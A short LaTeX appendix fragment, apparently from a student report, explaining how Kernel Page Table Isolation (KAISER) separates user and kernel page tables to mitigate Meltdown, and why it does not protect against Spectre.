\section{: KAISER(patches Meltdown but not Spectre)}

Kernel Page Table Isolation(KPTI), previously known as KAISER(Kernel Address Isolation to have Side channels Efficiently Removed) is a kernel feature to mitigate the \textbf{Meltdown} security vunerability. It doesn't provide a safeguard against Spectre.

KPTI fixes leaks by \textbf{seperating user-space and kernel-space page tables} completely. One set of page table consisting of both user-space and kernel-space addresses exists but is only used when the the system is running in kernel mode.The second set of page tables for use in user mode contains a copy of user-space and a \textbf{minimal set of kernel-space mappings} that provides the information needed to enter or exit system calls, interrupts and exceptions.

The reason why KPTI doesn't work for Spectre is Spectre security vunerability \textbf{completely occurs in the user-space addresses,} hence splitting user-space and kernel-space addresses into different page tables yields no solution.


	
\end{appendices}
\end{document}